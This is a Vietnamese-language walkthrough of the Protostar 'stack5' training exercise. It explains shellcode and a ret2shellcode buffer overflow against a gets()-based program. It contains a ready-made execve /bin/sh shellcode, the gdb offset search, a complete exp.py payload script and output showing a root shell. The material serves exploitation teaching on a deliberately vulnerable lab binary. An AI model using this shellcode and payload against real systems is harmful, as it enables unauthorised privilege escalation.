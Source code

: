 # STACK FIVE

## About

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

  * At this point in time, it might be easier to use someone elses shellcode
  
  * If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
  
  * remove the int3s once your shellcode is done.

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Solutions

`STACK FIVE` là thử thách không có hàm win(), đọc giới thiệu ta có thể thấy thử thách muốn chúng ta tìm hiểu về Shellcode và học cách khai thác ret2shellcode.

Shellcode là gì ?

```
Shellcode còn được gọi là bytecode, tạm dịch là mã máy. Chúng ta đều biết mã máy là thứ ngôn ngữ duy nhất mà bộ vi xử lí có thể hiểu được. Tất cả các chương trình viết bằng bất kì ngôn ngữ nào đều phải được biên dịch sang mã máy trước khi máy tính có thể chạy được chương trình đó. Khác với các chương trình này, shellcode được thể hiện như một nhóm các mã máy, do đó máy tính có thể hiểu và thực thi trực tiếp shellcode mà không cần phải trải qua bất kì công đoạn biên dịch nào cả.
```

Với người mới tìm hiểu và chưa có kiến thức nhiều về mã máy, thử thách gợi ý sẽ tốt hơn khi tại thời điểm này sử dụng shellcode của ai đó.

Tôi lấy nguồn từ trên mạng: <https://www.exploit-db.com/exploits/43716>

```
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Tiếp theo là tìm độ dài chuỗi có thể ghi đè eip

```
root@protostar:/opt/protostar/bin# python -c 'print "A" * 64 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4 + "F" * 4 + "G" * 4 + "H" * 4' > txt
root@protostar:/opt/protostar/bin# gdb -q ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) r < txt
Starting program: /opt/protostar/bin/stack5 < txt

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()       <-- EEEE Tiếp tục là 76
(gdb)
```
Vậy payload của chúng ta bây giờ sẽ trông như này:

payload = "A" * 76 + return address + "\x90" * 100 + shellcode

Các bạn nên đọc link tài liệu ở phần Documents để hiểu rõ hơn về shellcode và "\x90" NOPs

Stack sẽ trông như sau khi bị ghi đè (Bố cục địa chỉ có thể khác trên máy bạn)

```
(gdb) x/100wx $esp
0xbffffc10:     0xbffffc20      0xb7ec6165      0xbffffc28      0xb7eada75
0xbffffc20:     0x41414141      0x41414141      0x41414141      0x41414141      <-- padding bắt đầu từ 0x41414141.
0xbffffc30:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc40:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc50:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc60:     0x41414141      0x41414141      0x41414141      0xxxxxxxxx       <-- Vị trí của Return address | Ở đây được tính toán = 0xbffffc6c + 0x50 = 0xbffffcbc
0xbffffc70:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffc80:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffc90:     0x90909090      0x90909090      0x90909090      0x90909090      <-- sau ret sẽ là chuỗi \x90\ vì sẽ có sự biến động khi chạy và debug, nên sẽ không thể tính chính xác vị trí của shell code mà phải ước lượng và trượt vào nó qua NOPs.
0xbffffca0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffcb0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffcc0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffcd0:     0x90909090      0x50c031cc      0x732f2f68      0x622f6868        <-- Shell code start: 0xbffffcd4, sau chuỗi NOP sẽ là shellcode do hệ thống sẽ bỏ qua NOP và tiếp tục thực thi.
0xbffffce0:     0xe3896e69      0xc289c189      0x80cd0bb0      0xcd40c031
0xbffffcf0:     0x08040080      0x00000001      0xbffffd14      0x080483f0
0xbffffd00:     0x080483e0      0xb7ff1040      0xbffffd0c      0xb7fff8f8
0xbffffd10:     0x00000001      0xbffffe20      0x00000000      0xbffffe3a
0xbffffd20:     0xbffffe4a      0xbffffe5e      0xbffffe80      0xbffffe93
0xbffffd30:     0xbffffe9d      0xbffffea9      0xbffffeeb      0xbffffeff
0xbffffd40:     0xbfffff0e      0xbfffff25      0xbfffff36      0xbfffff3f
0xbffffd50:     0xbfffff8c      0xbfffff97      0xbfffff9f      0xbfffffac
0xbffffd60:     0x00000000      0x00000020      0xb7fe2414      0x00000021
0xbffffd70:     0xb7fe2000      0x00000010      0x0f8bfbff      0x00000006
0xbffffd80:     0x00001000      0x00000011      0x00000064      0x00000003
0xbffffd90:     0x08048034      0x00000004      0x00000020      0x00000005
```
Kết quả dừng trước int3 \xcc -> bỏ int3 thì shellcode được thực thi

```
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffffcd5 in ?? ()
(gdb)
```
Từ bài này chúng ta sẽ bắt đầu viết file payload exp.py 

File exp.py

``` 
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = "A" * 76 + "\xbc\xfc\xff\xbf" + "\x90" * 100 + shellcode
print payload
```

Bước khai thác cuối cùng

```exp.py
root@protostar:/opt/protostar/bin$ $(python exp.py ; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami 
root
ls
final0	final2	 format1  format3  heap0  heap2  net0  net2  net4    stack1  stack3  stack5  stack7
final1	format0  format2  format4  heap1  heap3  net1  net3  stack0  stack2  stack4  stack6
```

## Documents

<https://vnhacker.blogspot.com/2006/12/shellcode-thn-chng-nhp-mn.html>

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>


